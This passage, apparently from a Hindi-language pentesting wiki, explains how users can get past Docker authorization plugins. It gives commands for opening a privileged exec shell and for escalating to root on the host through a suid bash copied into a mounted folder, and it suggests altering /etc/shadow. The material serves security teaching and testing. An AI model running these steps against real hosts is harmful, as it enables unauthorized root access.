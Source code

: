 कुछ मौकों में, सिस्टम व्यवस्थापक डॉकर में कुछ प्लगइन स्थापित कर सकता है ताकि कम विशेषाधिकार वाले उपयोगकर्ता विशेषाधिकारों को बढ़ाने के बिना डॉकर के साथ संवाद कर सकें।

## अनुमति नहीं है `run --privileged`

इस मामले में सिस्टम व्यवस्थापक ने उपयोगकर्ताओं को **वॉल्यूम माउंट करने और `--privileged` फ़्लैग के साथ कंटेनर चलाने** या कंटेनर को कोई अतिरिक्त क्षमता नहीं दी है:
```bash
docker run -d --privileged modified-ubuntu
docker: Error response from daemon: authorization denied by plugin customauth: [DOCKER FIREWALL] Specified Privileged option value is Disallowed.
See 'docker run --help'.
```
यहां, एक उपयोगकर्ता **चल रहे कंटेनर के अंदर एक शैल बना सकता है और इसे अतिरिक्त अधिकार दे सकता है**:
```bash
docker run -d --security-opt "seccomp=unconfined" ubuntu
#bb72293810b0f4ea65ee8fd200db418a48593c1a8a31407be6fee0f9f3e4f1de
docker exec -it --privileged bb72293810b0f4ea65ee8fd200db418a48593c1a8a31407be6fee0f9f3e4f1de bash
```
अब, उपयोगकर्ता पहले चर्चित तकनीकों में से किसी भी तकनीक का उपयोग करके कंटेनर से बाहर निकल सकता है और होस्ट में विशेषाधिकारों को बढ़ा सकता है।

## माउंट योग्य फ़ोल्डर

इस मामले में सिसएडमिन ने उपयोगकर्ताओं को `--privileged` फ़्लैग के साथ कंटेनर चलाने से रोक दिया या कंटेनर को किसी अतिरिक्त क्षमता का प्रदान करने से इंकार किया है, और उसने केवल `/tmp` फ़ोल्डर को माउंट करने की अनुमति दी है:
```bash
host> cp /bin/bash /tmp #Cerate a copy of bash
host> docker run -it -v /tmp:/host ubuntu:18.04 bash #Mount the /tmp folder of the host and get a shell
docker container> chown root:root /host/bash
docker container> chmod u+s /host/bash
host> /tmp/bash
-p #This will give you a shell as root
```
{% hint style="info" %}
ध्यान दें कि शायद आप `/tmp` फ़ोल्डर को माउंट नहीं कर सकते हैं, लेकिन आप एक **अलग लिखने योग्य फ़ोल्डर** को माउंट कर सकते हैं। आप निम्नलिखित कमांड का उपयोग करके लिखने योग्य निर्देशिकाओं को खोज सकते हैं: `find / -writable -type d 2>/dev/null`

**ध्यान दें कि एक लिनक्स मशीन में सभी निर्देशिकाएं suid बिट का समर्थन नहीं करेंगी!** suid बिट का समर्थन करने वाले निर्देशिकाओं की जांच करने के लिए `mount | grep -v "nosuid"` कमांड चलाएं। उदाहरण के लिए, आमतौर पर `/dev/shm`, `/run`, `/proc`, `/sys/fs/cgroup` और `/var/lib/lxcfs` suid बिट का समर्थन नहीं करते हैं।

ध्यान दें कि यदि आप **`/etc` या किसी अन्य फ़ोल्डर को माउंट** कर सकते हैं जिसमें **कॉन्फ़िगरेशन फ़ाइलें होती हैं**, तो आप उन्हें डॉकर कंटेनर में रूट के रूप में बदलकर उन्हें उच्चारित कर सकते हैं और विशेषाधिकारों को बढ़ा सकते हैं (शायद `/etc/shadow` को संशोधित करके)
{% endhint %}

## जांच नहीं की गई JSON संरचना
